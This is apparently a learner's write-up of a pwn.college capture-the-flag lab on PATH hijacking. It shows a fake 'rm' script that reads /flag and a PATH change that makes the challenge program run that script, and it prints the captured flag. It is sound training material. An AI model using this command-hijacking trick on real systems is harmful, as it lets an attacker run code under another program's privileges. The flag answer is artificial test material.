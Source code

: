 In this challenge we have to get the flag by overwriting the rm command.
## My Solve

**Flag:**pwn.college{0dJnH5Oh-U0If849zZXvjxw0ZLO.QX3cjM1wCN4kjNzEzW}
In this challenge, I followed the instructions to get the flag.
```bash
hacker@path~hijacking-commands:~$ cat rm
#!/bin/bash
cat /flag
hacker@path~hijacking-commands:~$ which cat
/run/dojo/bin/cat
hacker@path~hijacking-commands:~$ PATH=""
hacker@path~hijacking-commands:~$ PATH=/home/hacker:/run/dojo/bin:$PATH
hacker@path~hijacking-commands:~$ echo $PATH
/home/hacker:/run/dojo/bin:
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{0dJnH5Oh-U0If849zZXvjxw0ZLO.QX3cjM1wCN4kjNzEzW}
```

## What I Learned
Through this challenge, I was able to learn how to get the flag by not letting it get removed by the rm command.

## Refernces
Did not use any references for this challenge.
